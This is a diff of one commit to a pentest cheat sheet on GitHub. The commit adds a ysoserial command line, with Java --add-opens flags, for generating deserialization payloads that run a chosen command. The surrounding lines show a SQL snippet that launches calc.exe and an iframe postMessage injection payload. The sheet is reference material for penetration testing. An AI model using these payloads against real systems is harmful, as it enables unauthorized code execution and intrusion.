

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adds ysoserial CLI command that works!

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -2090,3 +2090,11 @@ SELECT cmd($$calc.exe$$, 3);
 	onload='this.contentWindow.postMessage(`{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}`, `*`)'>
 </iframe>
 ```
+### Ysoserial command that works!
+```
+ java \
+ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
+ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
+ --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
+ -jar ysoserial-all.jar <payload> <command>
+```
````
